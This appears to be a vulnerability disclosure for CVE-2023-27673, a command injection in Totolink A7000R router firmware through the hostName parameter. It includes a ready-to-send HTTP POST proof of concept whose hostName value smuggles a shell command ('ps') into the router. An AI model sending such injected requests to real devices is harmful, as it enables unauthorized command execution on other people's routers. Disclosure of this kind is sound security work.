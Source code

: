 # CVE-2023-27673
# Totolink A7000R Has an command injection vulnerability

## 1. Affected version:

Totolink A7000R V9.1.0u.6115_B20201022(Transition version)

## 2. Firmware download address

[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/171/ids/36.html)
![image](https://user-images.githubusercontent.com/73413552/221508389-e59a233e-a4fb-4a77-9e58-62f8b0d1df0d.png)

## 3. Vulnerability details

The function "sub_423970" contains a Command Injection Caused by Format String Vulnerabilities. 
In the function, Attackers can control v48 by controlling the hostName parameter, and then control the parameters of the doSystem function。
As a result, by requesting the page, an attacker can easily execute a Dos attack or RCE with carefully crafted overflow data.


![image](https://user-images.githubusercontent.com/73413552/221512750-00e0c3be-7b6c-4045-bfa8-c99b2cccf8be.png)



## 4. Recurring vulnerabilities and POC

Due to China legal and policy reasons, we are unable to provide the exploit for tis vulnerability at this time.

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 109
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/advance/index.html?time=1677576032102
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1677576031:2
Connection: close

{
"opmode":"br",
"proto":"2",
"switchOpMode":"1",
"topicurl":"setOpModeCfg",
"hostName":"admin';ps #"
}
```
![image](https://user-images.githubusercontent.com/73413552/221814054-a1b96ceb-60e0-417c-be6a-6b85ef0b2bc1.png)



## 5. Author

Mark @KRLab
